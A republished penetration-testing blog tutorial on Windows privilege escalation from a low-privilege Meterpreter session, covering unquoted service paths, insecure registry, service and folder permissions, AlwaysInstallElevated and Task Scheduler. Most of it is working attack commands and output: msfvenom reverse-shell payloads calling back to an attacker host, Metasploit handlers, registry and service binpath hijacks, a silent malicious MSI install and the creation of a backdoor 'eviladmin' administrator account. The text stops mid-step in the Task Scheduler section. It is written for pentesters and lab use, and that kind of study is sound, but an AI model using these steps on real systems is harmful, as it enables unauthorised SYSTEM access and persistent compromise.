





# Windows Privilege Escalation
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
## Windows Privilege Escalation Methods for Pentesters

January 18, 2017  Gokhan Sagoglu

Imagine that you have gotten a low-priv Meterpreter session on a Windows machine. Probably you’ll run ```getsystem``` to escalate your privileges. But what if it fails? Don’t panic. There are still some techniques you can try.

### Unquoted Service Paths

Basically, it is a vulnerability that occurs if a service executable path is not enclosed with quotation marks and contains space. To identify these unquoted services you can run this command on Windows Command Shell:
```wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """```
All services with unquoted executable paths will be listed:
```
meterpreter > shell
Process 4024 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
Vulnerable Service                            Vulnerable Service            C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe            Auto       
C:\Users\testuser\Desktop>
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:
```C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe```
It should be like this:
```“C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”```

When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
This vulnerability is caused by the “CreateProcess” function in Windows operating systems. If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM. But we should have necessary privileges on one of these folders. In order to check the permissions of a folder we can use built-in Windows tool, icals. Let’s check permissions for “C:\Program Files (x86)\Program Folder”.
```
meterpreter > shell
Process 1884 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Program Files (x86)\Program Folder>icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files (x86)\Program Folder"
C:\Program Files (x86)\Program Folder Everyone:(OI)(CI)(F)
                                      NT SERVICE\TrustedInstaller:(I)(F)
                                      NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                      NT AUTHORITY\SYSTEM:(I)(F)
                                      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                      BUILTIN\Administrators:(I)(F)
                                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                      BUILTIN\Users:(I)(RX)
                                      BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                      CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
Successfully processed 1 files; Failed processing 0 files
C:\Program Files (x86)\Program Folder>
```
What a luck! As you can see, “Everyone” has full control on this folder.

F = Full Control
CI = Container Inherit – This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit – This flag indicates that subordinate files will inherit the ACE.

This means we are free to put any file to this folder! From now on, what you’re going to do depends on your imagination. I simply preferred to generate a reverse shell payload to run as SYSTEM. msfvenom can be used for this job:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o A.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: A.exe
```
Let’s put out payload to “C:\Program Files (x86)\Program Folder” folder:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > cd "../../../Program Files (x86)/Program Folder"
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-01-04 21:43:28 -0500  A Subfolder
meterpreter > upload -f A.exe
[*] uploading  : A.exe -> A.exe
[*] uploaded   : A.exe -> A.exe
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2017-01-04 21:43:28 -0500  A Subfolder
100777/rwxrwxrwx  73802  fil   2017-01-04 22:01:32 -0500  A.exe
meterpreter > 
```
At the next start of the service, A.exe will run as SYSTEM. Let’s try to stop and restart the service:
```
meterpreter > shell
Process 1608 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
[SC] OpenService FAILED 5:
Access is denied.
C:\Users\testuser\Desktop>
```
Access is denied because we don’t have permission to stop or start service. However, it’s not a big deal, we can wait for someone to restart machine, or we can do it ourselves with shutdown command:
```
C:\Users\testuser\Desktop>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\Desktop>
[*] 192.168.2.40 - Meterpreter session 8 closed. Reason: Died
```
As you can see, our session is died. We’ll never forget you low-priv shell. RIP. Our target machine is restarting now. Soon, our payload will work as SYSTEM. We should start a handler right away.
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60 
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.40
[*] Meterpreter session 1 opened (192.168.2.60:8989 -> 192.168.2.40:49156) at 2017-01-04 22:37:17 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
[*] 192.168.2.40 - Meterpreter session 1 closed.  Reason: Died
```
Now we have gotten a meterpreter shell with SYSTEM privileges. High five! But wait, why did our session die so quickly? We just started! No need to worry. It’s because, when a service starts in Windows operating systems, it must communicate with the Service Control Manager. If it’s not, Service Control Manager thinks that something is not going well and terminates the process. All we need to do is migrate before termination of our payload, or you can consider using auto-migration. 😉

BTW there is a metasploit module for checking and exploiting this vulnerability: exploit/windows/local/trusted_service_path. This module only requires that you link it to an existing Meterpreter session before running:
```
msf > use exploit/windows/local/trusted_service_path
msf exploit(trusted_service_path) > show options
Module options (exploit/windows/local/trusted_service_path):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
Exploit target:
   Id  Name
   --  ----
   0   Windows
```
However, it’s always good to know internals. 😉 If you want to demonstrate this vulnerability yourself, you can add a vulnerable service to your test environment:
```
C:\Windows\System32>sc create "Vulnerable Service" binPath= "C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe" start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T
Services with Vulnerable Privileges
```
You know, Windows services run as SYSTEM. So, their folders, files and registry keys must be protected with strong access controls. In some cases, we encounter services that are not sufficiently protected.
### Insecure Registry Permissions
In Windows, information related with services is stored in ```HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services``` registry key. If we want to see information about our “Vulnerable Service” we should check ```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service``` key.

Of course our Vulnerable Service have some weaknesses. 🙂

But the point is, how can we check these permissions from command line? Let’s start the scenario from the beginning. You have gotten a low-priv Meterpreter session and you want to check permissions of a service.
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
```
You can use SubInACL tool to check registry keys permissions. You can download it here but the point you need to be aware of it deployed as an msi file. If ```AlwaysInstallElevated``` policy setting is not enabled on target machine you can’t install msi files with low-priv user.(We will discuss ```AlwaysInstallElevated``` policy later in this post) And of course you may do not want to install a new software to the target machine.
I recommend you to install it an virtual machine and find subinacl.exe file in C:\Program Files (x86)\Windows Resource Kits\Tools\. It will work smoothly without having to install msi file.
Let’s upload SubInACL tool to our target.
```
meterpreter > cd %temp%
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f subinacl.exe
[*] uploading  : subinacl.exe -> subinacl.exe
[*] uploaded   : subinacl.exe -> subinacl.exe
meterpreter >
```
Now SubInACL tool ready to use. Let’s check permissions for ```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service```.
```
meterpreter > shell
Process 2196 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
SeSecurityPrivilege : Access is denied.
WARNING :Unable to set SeSecurityPrivilege privilege. This privilege may be required. 
================================================================================
+KeyReg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service
================================================================================
/control=0x400 SE_DACL_AUTO_INHERITED-0x0400 
/owner             =builtin\administrators
/primary group     =system
/perm. ace count   =10
/pace =everyone   ACCESS_ALLOWED_ACE_TYPE-0x0
  CONTAINER_INHERIT_ACE-0x2      
    Key and SubKey - Type of Access:
  Full Control
    Detailed Access Flags :
  KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     
  KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             
  READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        
.
C:\Users\testuser\AppData\Local\Temp>
```
Focus on 20th to 23rd lines. It says Everyone has Full Control on this registry key. It means we can change executable path of this service by editing ImagePath value. It’s a huge security weakness.
If we generate a simple reverse shell payload and drop it to our target, all that remains is changing ImagePath value for our vulnerable service with our payload’s path.
Let’s generate a simple reverse shell payload:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
Drop it to target machine:
```
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f subinacl.exe
[*] uploading  : Payload.exe -> Payload.exe
[*] uploaded   : Payload.exe -> Payload.exe
meterpreter >
```
Now let’s change the ImagePath value with our payload’s path.
```
meterpreter > shell
Process 280 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
The operation completed successfully.
C:\Users\testuser\AppData\Local\Temp>
```
At the next start of the service, Payload.exe will run as SYSTEM. But remember, we had to restart the computer to do this.
```
C:\Users\testuser\AppData\Local\Temp>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\AppData\Local\Temp>
[*] 192.168.2.6 - Meterpreter session 1 closed.  Reason: Died
```
Our target machine is restarting now. Prepare your handler! Soon, our payload will work as SYSTEM.
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.6
[*] Meterpreter session 2 opened (192.168.2.60:8989 -> 192.168.2.6:49156) at 2017-01-16 03:59:58 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
[*] 192.168.2.6 - Meterpreter session 2 closed.  Reason: Died
```
But don’t forget! We are working with services just as in the previous method our hi-priv meterpreter session will die quickly.
### Insecure Service Permissions
It is very similar with previous Insecure Registry Permissions example. Instead of changing service’s “ImagePath” registry value directly we will do it with modifying service properties.
To check which Services have vulnerable privileges we can use AccessChk tool from SysInternals Suite.
Upload AccessChk tool to target machine:
```
meterpreter > cd %temp%
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f accesschk.exe
[*] uploading  : accesschk.exe -> accesschk.exe
[*] uploaded   : accesschk.exe -> accesschk.exe
meterpreter >
```
To check vulnerable services simply run this command:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > shell
Process 3496 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>accesschk.exe -uwcqv "testuser" * 
accesschk.exe -uwcqv "TestUser" *
Accesschk v6.02 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
RW Vulnerable Service
 SERVICE_ALL_ACCESS
C:\Users\testuser\AppData\Local\Temp>
All services that “testuser” can modify will be listed. SERVICE_ALL_ACCESS means we have full control over modifying the properties of Vulnerable Service.
```
Let’s view the properties of the Vulnerable Service:
```
C:\Users\testuser\AppData\Local\Temp>sc qc "Vulnerable Service"
sc qc "Vulnerable Service"
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: Vulnerable Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
        LOAD_ORDER_GROUP   : UIGroup
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
C:\Users\testuser\AppData\Local\Temp>
```
```BINARY_PATH_NAME``` points to Executable.exe which is executable file for this service. If we change this value with any command means this command will run as SYSTEM at the next start of the service. We can add a local admin if we want.
First thing to do is add an user:
```
C:\Users\testuser\AppData\Local\Temp>sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
[SC] ChangeServiceConfig SUCCESS
C:\Users\testuser\AppData\Local\Temp>
```
After changing binpath restart service with “sc stop” and “sc start” commands:
```
C:\Users\testuser\AppData\Local\Temp>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
SERVICE_NAME: Vulnerable Service 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
C:\Users\testuser\AppData\Local\Temp>sc start "Vulnerable Service"
sc start "Vulnerable Service"
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```
When you try to start service it will return an error. As we talked earlier it’s because, when a service starts in Windows operating systems, it must communicate with the Service Control Manager. “net user” cannot communicate with the SCM. No worries, our command will run as SYSTEM and new user will be added successfully.
Now we should add new “eviladmin” user to local admins by changing “binpath” and starting service again.(We don’t need to stop it again, it is already not running because of it didn’t communicate with the SCM, you know)
```
C:\Users\testuser\AppData\Local\Temp>sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"    
sc config "Vulnerable Service" binpath= "net localgroup Administrators eviladmin /add"
[SC] ChangeServiceConfig SUCCESS
C:\Users\testuser\AppData\Local\Temp>sc start "Vulnerable Service"
sc start "Vulnerable Service"
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
C:\Users\testuser\AppData\Local\Temp>
```
Enjoy your new local admin account!
```
C:\Users\testuser\AppData\Local\Temp>net user
net user
User accounts for \\TARGETMACHINE
-------------------------------------------------------------------------------
Administrator            can                      eviladmin                
Guest                    testuser                 
The command completed successfully.
C:\Users\testuser\AppData\Local\Temp>
```
As we did before, you can prefer dropping a reverse shell payload to target machine and replacing binpath with the payload’s path. Instead of manually applying this method you can use this metasploit module: ```exploit/windows/local/service_permissions```
You have to link it to an existing Meterpreter session:
```
msf > use exploit/windows/local/service_permissions
msf exploit(service_permissions) > show options
Module options (exploit/windows/local/service_permissions):
   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION                      yes       The session to run this module on.
Exploit target:
   Id  Name
   --  ----
   0   Automatic
```
### Insecure File/Folder Permissions
It is very similar to what we did with Unquoted Service Paths. Unquoted Service Paths takes advantage of “CreateProcess” function’s weakness in combination with folder permissions along the executable file path of a service. But here we will try to replace the executable directly.
For example, if we check permissions for our Vulnerable Service’s executable path, we can see it does not protected well:
```
C:\Program Files (x86)\Program Folder>icacls "C:\Program Files (x86)\Program Folder\A Subfolder"
icacls "C:\Program Files (x86)\Program Folder\A Subfolder"
C:\Program Files (x86)\Program Folder\A Subfolder Everyone:(OI)(CI)(F)
                                                  Everyone:(I)(OI)(CI)(F)
                                                  NT SERVICE\TrustedInstaller:(I)(F)
                                                  NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                                  NT AUTHORITY\SYSTEM:(I)(F)
                                                  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                  BUILTIN\Administrators:(I)(F)
                                                  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                  BUILTIN\Users:(I)(RX)
                                                  BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                                  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
Successfully processed 1 files; Failed processing 0 files
C:\Program Files (x86)\Program Folder>
```
Simply replacing “Executable.exe” file with a reverse shell payload and restarting the service will give us a meterpreter session with SYSTEM privileges.
### AlwaysInstallElevated
```AlwaysInstallElevated``` is a policy setting that directs Windows Installer to use elevated permissions when it installs any program on the system. If this policy setting is enabled, privileges are extended to all programs. Actually enabling that is equivalent to granting administrative rights to non-privileged users. But in a way that I cannot understand, sometimes system administrators enable this setting:

You should check this registry values to understand if this policy is enabled:
```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001
```
If you have gotten a low-priv Meterpreter session, the built-in command line tool, reg query will help you to check these values:
```
meterpreter > getuid
Server username: TARGETCOMPUTER\testuser
meterpreter > shell
Process 812 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
C:\Users\testuser\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
C:\Users\testuser\Desktop>
```
If you got an error like “ERROR: The system was unable to find the specified registry key or value.” this means this registry values never created. So, the policy is not enabled.
But if you see following output, it means the policy setting is enabled and you can exploit it. 😉
```
meterpreter > getuid
Server username: TARGETCOMPUTER\testuser
meterpreter > shell
Process 2172 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\testuser\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\testuser\Desktop>
```
As I said before, in this situation, Windows Installer will use elevated permissions when it installs any program. So we should generate a malicious .msi file and run it. msfvenom can handle this.

If you want you can generate a .msi file that adds a local admin to our target machine. You should use windows/adduser as a payload:
```
root@kali:~# msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 277 bytes
Final size of msi file: 159744 bytes
Saved as: add_user.msi
root@kali:~# 
```
But in this scenario I’ll generate an executable reverse shell payload(Payload.exe) and an msi file(malicious.msi) that executes this payload. Let’s do it!

Generating Payload.exe:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
Generating malicious.msi by using windows/exec as a payload. Make sure you enter the correct path for Payload.exe:
```
root@kali:~# msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 233 bytes
Final size of msi-nouac file: 159744 bytes
```
Now we can upload these two to our target machine.
```
meterpreter > cd C:/Users/testuser/AppData/Local/Temp
meterpreter > upload -f Payload.exe
[*] uploading  : Payload.exe -> Payload.exe
[*] uploaded   : Payload.exe -> Payload.exe
meterpreter > upload -f malicious.msi
[*] uploading  : malicious.msi -> malicious.msi
[*] uploaded   : malicious.msi -> malicious.msi
```
Before executing the .msi file, start a new handler on another terminal window for brand new hi-priv shell:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
```
Now we’re ready to execute!
```
meterpreter > shell
Process 1260 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\temp>msiexec /quiet /qn /i malicious.msi 
msiexec /quiet /qn /i malicious.msi
C:\Users\testuser\AppData\Local\temp>
```
* /quiet = Suppress any messages to the user during installation
* /qn = No GUI
* /i = Regular (vs. administrative) installation

Enjoy your shell with SYSTEM privileges!
```
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.236
[*] Meterpreter session 1 opened (192.168.2.60:8989 -> 192.168.2.236:36071) at 2016-12-21 04:21:57 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
Instead of manually applying this technique you can use this metasploit module:` exploit/windows/local/always_install_elevated`

This module only requires that you link it to an existing Meterpreter session before running:
```
msf > use exploit/windows/local/always_install_elevated
msf exploit(always_install_elevated) > show options
Module options (exploit/windows/local/always_install_elevated):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
```
## Privilege Escalation with Task Scheduler
This method only works on a Windows 2000, XP, or 2003 machine. You must have local administrator privileges to manage scheduled tasks. If you have meterpreter session with limited user privileges this method will not work.

On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges. That means if we create a scheduled task that executes our malicious executable, it will run as SYSTEM. 😉

Again, I’ll generate an executable reverse shell payload for this job. Let’s demonstrate!

Generating an executable reverse shell payload:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: Payload.exe
```
You can drop your payload anywhere you want. I prefer temp folder:
```
meterpreter > getuid
Server username: TESTMACHINE\test
meterpreter > sysinfo
Computer        : TESTMACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > cd "C:/Documents and Settings/test/Local Settings/Temp"
meterpreter > upload -f Payload.exe
[*] uploading  : Payload.exe -> Payload.exe
